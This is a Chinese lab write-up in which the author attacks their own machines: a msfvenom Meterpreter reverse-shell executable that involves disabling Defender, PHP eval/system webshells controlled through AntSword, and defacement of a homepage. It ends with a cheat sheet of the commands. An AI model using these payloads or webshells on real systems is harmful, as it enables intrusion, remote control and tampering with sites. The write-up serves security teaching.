这个实验做了两件事，一个在操作系统层面，一个在网站层面。

实验一是自己生成一个小程序，放到 Windows 上运行，让它主动连回 Kali，我在 Kali 上给它发命令。实验二是往网站目录里放一个 PHP 文件，用浏览器访问它执行命令，再交给蚁剑接管。

被控端和网站都是自己的：Windows 是本机，网站是 Kali 上的 Apache，里面没有真实数据。

---

# 实验一：exe 木马

1. **先确认 Kali 的地址**

```
ip a | grep inet
```



*图1：Kali 的地址是 192.168.200.131。*

这个地址后面要填好几次，填错就连不上。

2. **生成木马**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.200.131 LPORT=5000 -f exe -o ~/payload.exe
```

`-p` 选载荷类型，`LHOST` 是让被控端连哪个地址，`LPORT` 是连哪个端口，`-f exe` 输出成 exe，`-o` 是保存路径。跑完会显示 `Payload size: 354 bytes`、`Final size of exe file: 7168 bytes`。



*图2：生成完成，文件 7168 字节。*

文件只有 7 KB，因为它里面没有完整功能，只有 354 字节的引导代码，作用就是连上 Kali，再把后面收到的东西加载进内存。真正的功能模块 195 KB 左右，连上之后才发过去。

连接方式采用反向连接，即“被控端连出来”，不是“攻击机连进去”。防火墙一般只拦入站不管出站，所以这样更容易通。

3. **让 Windows 能下载到它**

```
cd ~ && python3 -m http.server 8000
```

终端显示 `Serving HTTP on 0.0.0.0 port 8000` 就成功了。这个窗口不能关，关了服务就断了。

4. **下载被拦**

在浏览器里打开 `http://192.168.200.131:8000/payload.exe`，Edge 有时会直接拦下来，提示「无法下载 - 检测到病毒」。



*图3：浏览器直接拒绝下载。*

这是 SmartScreen 在工作。它不看文件内容，看的是信誉：有没有签名、多少人下载过、哈希在不在白名单。新生成的文件三样都不满足，就直接拒绝下载。

要拿到文件，得先把 Defender 的实时保护临时关掉，下载完再开回来。

5. **主控端开始监听**

```
msfconsole
```

启动后依次输入：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.200.131
set LPORT 5000
exploit
```

`multi/handler` 不攻击任何目标，只是本地开一个端口等着连进来。看到 `Started reverse TCP handler on 192.168.200.131:5000` 就是监听起来。



*图4：监听已启动。*

这里填的 payload、LHOST、LPORT 必须和生成木马时完全一样，否则连上了也握手失败。

6. **运行木马**

在 Windows 上双击 `C:\lab\payload.exe`，Kali 那边会刷出 `Meterpreter session 1 opened`，接着出现 `meterpreter >`。



*图5：会话建立。*

验证一下：

```
meterpreter > sysinfo
meterpreter > getuid
meterpreter > shell
```



*图6：系统信息、当前身份和系统命令行。*

`getuid` 显示的是运行木马的那个账户。screenshot可以截屏。到这一步能做的事和坐在电脑前的人基本差不多，也就证明实验成功了。

7. **提交沙箱**

把样本上传到微步云沙箱，判定为恶意木马，引擎检出数 15 到 28 之间。



*图7：沙箱判定为恶意木马。*

---

# 实验二：一句话木马

实验一是在操作系统上放木马，实验二则换一层，在网站目录里放一个文件。网站是 PHP 写的，只要能往它目录里塞一个 `.php`，里面写一句“把参数当代码执行”，以后访问这个文件带上参数，服务器就会执行我给的代码。

1. **起 Web 服务**

```
sudo systemctl start apache2
sudo systemctl status apache2 --no-pager | head -5
```

看到 `active (running)` 就可以了。

2. **写木马文件**

```
echo '<?php system($_REQUEST["cmd"]); ?>' | sudo tee /var/www/html/shell.php
echo '<?php @eval($_REQUEST["cmd"]); ?>'  | sudo tee /var/www/html/antshell.php
```

两个文件只差一个函数名，行为完全不同：`system()` 把参数当系统命令执行，配浏览器用；`@eval()` 把参数当 PHP 代码执行，配蚁剑用。



*图8：antshell.php 的内容，就一行。*

`@` 是错误抑制符，免得报错信息把文件路径暴露出来。

3. **改目录权限**

```
sudo chown -R www-data:www-data /var/www/html
```

`/var/www/html` 默认属主是 `root`，Apache 用的是 `www-data`。不改的话后面用蚁剑写文件会报权限拒绝。

4. **先在浏览器里验证**

```
http://192.168.200.131/shell.php?cmd=id
```

页面返回 `uid=33(www-data) gid=33(www-data)`，说明命令真的执行了。



*图9：页面上直接输出 id 的结果。*

5. **用蚁剑接管**

打开蚁剑，右键「添加数据」，URL 填 `http://192.168.200.131/antshell.php`，连接密码填 `cmd`，编码用默认。密码就是 `$_REQUEST["cmd"]` 里那个 `cmd`，不是文件里的内容。

双击刚加的那条，能进文件管理界面就说明连上了。



*图10：蚁剑连接成功。*

连 `system` 版的 `shell.php` 会报「返回数据为空」。因为蚁剑发过去的是 PHP 代码，而 `system()` 只把参数当系统命令，代码它不认。换成 `eval` 版就正常。

6. **虚拟终端**

右键目标 → 虚拟终端，可以直接敲命令。敲 `whoami` 返回 `www-data`，说明命令是以 Web 进程的身份跑的。



*图11：虚拟终端里执行 whoami，红字是下面要说的 dash 报错。*

如果终端报 `Syntax error: ";" unexpected`，是 Kali 里 `/bin/sh` 链到的是 `dash`，蚁剑拼的命令里有些语法它不认。改成 bash 再重开终端：

```
sudo ln -sf /bin/bash /bin/sh
```

7. **文件管理**

文件管理里能看到整个网站目录，能上传、下载、编辑、删除。新建一个 `hacked.txt` 写几行字，存进去再读出来。



*图12：蚁剑的文件管理界面。*



*图13：编辑文件。*



*图14：保存后重新读取，内容在。*

8. **篡改首页**

把 `index.html` 换成一行红字：

```
<h1 style="color:red">HACKED BY ANTSWORD</h1>
```

保存后刷新 `http://192.168.200.131/`，页面就变成了这句话。文件从 10703 字节变成 10764 字节，多了 61 字节。



*图15：首页被改成 HACKED BY ANTSWORD。*

---

## 常用命令

- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=本机地址 LPORT=端口 -f exe -o 文件名`
- `python3 -m http.server 8000`：临时起一个下载服务
- `use exploit/multi/handler`：只监听，不攻击
- `echo '<?php @eval($_REQUEST["cmd"]); ?>' | sudo tee 路径`：写一句话木马
- `sudo chown -R www-data:www-data /var/www/html`：让 Web 进程能写文件
- `sudo ln -sf /bin/bash /bin/sh`：把默认 shell 换成 bash
